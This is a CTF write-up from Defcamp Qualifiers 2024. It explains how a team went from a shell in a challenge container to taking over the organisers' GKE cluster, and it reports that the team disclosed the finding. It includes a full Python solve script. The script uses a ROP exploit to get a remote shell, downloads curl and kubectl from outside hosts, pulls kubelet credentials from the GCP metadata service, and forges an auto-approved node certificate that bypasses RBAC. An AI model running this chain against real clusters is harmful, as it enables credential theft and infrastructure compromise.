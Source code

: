 CTF Infrastructure Vulnerability
Defcamp Qualifiers 2024
augusto
# First attempt at pwning Kubernetes

After our dear pwner friend popped a shell in ftp-console he dumped env to check if the flag was there, no flag to be found, but there were instead some interesting environment variables:

```shell
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT=tcp://10.59.240.1:443
```

Could that mean that we also got a Kubernetes service account mounted into the challenge container?

```shell
$ mount | grep kube
tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime,size=6175196k)
```

Unfortunately it looks like the service account is unprivileged so it can't do anything useful, time to dig more...

# Google Cloud instance metadata service

After some searching online we found out that GCP has something similar to AWS's 169.169.254.254 that's reachable via `http://metadata.google.internal/`. That required some way to do HTTP requests from our shell but nothing useful was installed (no cURL, wget, Python, Perl etc), no big issue because we managed to upload a static cURL build as a crazy big base64 blob.
In the end we managed to snag a token for the service account linked to the instance, sadly that didn't have any interesting privileges so we figured out we should go back to intended challenges and stop mucking around with CTF infra.

# Initial report to admins

We nonetheless decided to report our findings to the organizers because both things should be disabled while hosting CTFs as a best practice, organizers first reaction could be summarized as *PoC || GTFO* which in my opinion was a reasonable take if we wanted to get some extra points.
While investigating one of the organizers asked me to run `curl "http://metadata.google.internal/computeMetadata/v1/instance/attributes/?recursive=true&alt=text" -H "Metadata-Flavor: Google"` which should be getting *all* the available data from the instance metadata service mentioned earlier, initially no big secrets seemed to be contained there, but after looking closer we found a couple things that seemed interesting: `KUBELET_CERT` and `KUBELET_KEY`.

# Creating fake Kubernetes nodes for fun and profit

By searching the internet for more informations on there two variables we found an [interesting blog post by 4ARMED](https://www.4armed.com/blog/hacking-kubelet-on-gke/) that seemed to suit exactly our needs so we started fiddling around the GKE cluster, specifically:

Kubelet credentials only allow to send a CSR to the K8s control plane, this makes those credentials even less useful than the service account we initially got it it wasn't for a small detail: the control plane automatically approves CSRs if they respect some attributes.

We started by dumping all the existing CSRs and using a node CSR as a reference to craft a new CSR for a keypair we generated for purpose, then we sent the CSR to the control plane and hoped for the best.

After a couple seconds our CSR was actually approved so we could in fact pose as a cluster node.
This level of access was enough to list all running pods and dump pod specifications, so if there were any flags passed as environment variables to containers we would be able to get them easily.

Not so much in case flags were passed as secrets because by default Kubernetes employs RBAC (Role Based Access Control) to prevent nodes accessing secrets not used by any of their pods.

# The end? Maybe not

Then we asked ourselves: *how does K8s RBAC check which node is trying to access secrets?*, the answer was both easier and more obvious than we initially thought: it uses the requesting node certificate's Common Name (CN) attribute.

...wait...

Didn't we just say that we can craft arbitrary CSRs and get them automatically approved?
Yeah, we can in fact exploit that to bypass RBAC and get access to any secret we want.
This finally convinced admins that we deserved those nice extra points so in the end we were able to secure a 1st place without having to solve that pesky OSINT challenge :P

# Full solve script

```python
#!/usr/bin/env python3

from pwn import *

from pathlib import Path
from base64 import b64encode
import os
import time
import json

exe = ELF("./ftp_server_patched")
libc = ELF("./libc.so.6")

context.binary = exe

gdbscript = """
"""


certid = int(time.time())

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript=gdbscript)
    else:
        r = remote("34.107.71.117", 31059)

    return r


def upload_data(data: bytes, dest: str):
    r.sendlineafter(b"$ ", f"echo '{b64encode(data).decode()}' | base64 -d > {dest}".encode())

def upload_file(name: str, dest: str|None = None):
    if not dest:
        dest = name
    upload_data(Path(f'./{name}').read_bytes(), dest)

def bootstrap_curl():
    if not os.path.exists("./curl-amd64"):
        os.system(f"wget https://github.com/moparisthebest/static-curl/releases/download/v8.7.1/curl-amd64")
    assert os.path.exists("./curl-amd64")
    upload_file("curl-amd64", "curl")
    r.sendlineafter(b"$ ", b"chmod +x curl")
    r.sendlineafter(b"$ ", b"alias curl=./curl")

def download_exe(url: str, name: str):
    r.sendlineafter(b"$ ", f'./curl -kLO "{url}"'.encode())
    r.sendlineafter(b"$ ", f'chmod +x {name}'.encode())
    r.sendlineafter(b"$ ", f"alias {name}=./{name}".encode())


def main():
    global r
    r = conn()

    r.sendline(b"A")
    r.recvuntil(b"Password buffer is located at: ")
    system = int(r.recvline().strip(), 16)

    log.info(f"system: {hex(system)}")

    libc.address = system - libc.sym['system']

    log.success(f"libc base: {hex(libc.address)}")

    rop = ROP([exe, libc])
    rop.call(system, [next(libc.search(b"/bin/sh\x00"))])

    payload = flat({
        80: rop.chain()
    })

    r.sendline(payload)

    log.info("bootstrapping curl")
    bootstrap_curl()

    r.sendlineafter(b"$ ", b"curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep ^KUBELET_CERT | awk '{print $2}' | base64 -d > kubelet.crt")
    r.sendlineafter(b"$ ", b"curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep ^KUBELET_KEY | awk '{print $2}' | base64 -d > kubelet.key")
    r.sendlineafter(b"$ ", b"curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep ^CA_CERT | awk '{print $2}' | base64 -d > apiserver.crt")

    log.info("downloading kubectl")
    download_exe("https://dl.k8s.io/release/v1.31.1/bin/linux/amd64/kubectl", "kubectl")
    log.info("generating arbitrary node csr")
    os.system('openssl req -nodes -newkey rsa:2048 -keyout k8shack.key -out k8shack.csr -subj "/O=system:nodes/CN=system:node:arbitraryname"')
    log.info("uploading csr")
    upload_file("k8shack.key")
    upload_file("k8shack.csr")

    log.info("listing csrs")
    r.sendlineafter(b"$ ", b"kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get certificatesigningrequests -o json")
    csrs_text= r.recvuntil(b"$ ", drop=True)
    csrs = json.loads(csrs_text)["items"]
    csrs = list(filter(lambda x: x["metadata"]["name"].startswith("node-csr-"), csrs))
    #print(csrs)
    r.sendline()
    log.info("sending csr")
    upload_data(f"""
apiVersion: certificates.k8s.io/v1
kind: CertificateSigningRequest
metadata:
  name: node-csr-{certid}
spec:
  groups:
  - system:authenticated
  request: {b64encode(Path("k8shack.csr").read_bytes()).decode()}
  signerName: kubernetes.io/kube-apiserver-client-kubelet
  usages:
  - digital signature
  - client auth
  username: kubelet
""".encode(), "k8shack.yaml")
    r.sendlineafter(b"$ ", b"kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} create -f k8shack.yaml")
    log.success(r.recvuntil(b"$ ").decode())
    log.info("waiting 5 secs")
    time.sleep(5)
    r.sendline(b"kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get csr node-csr-" + str(certid).encode())
    log.success(r.recvuntil(b"$ ").decode())
    r.sendline(f"kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${{KUBERNETES_PORT_443_TCP_ADDR}} get csr node-csr-{certid} -o jsonpath='{{.status.certificate}}' | base64 -d > node2.crt".encode())

    r.sendlineafter(b"$ ", b"kubectl --client-certificate node2.crt --client-key k8shack.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get pods -o wide")
    r.interactive()


if __name__ == "__main__":
    main()
```
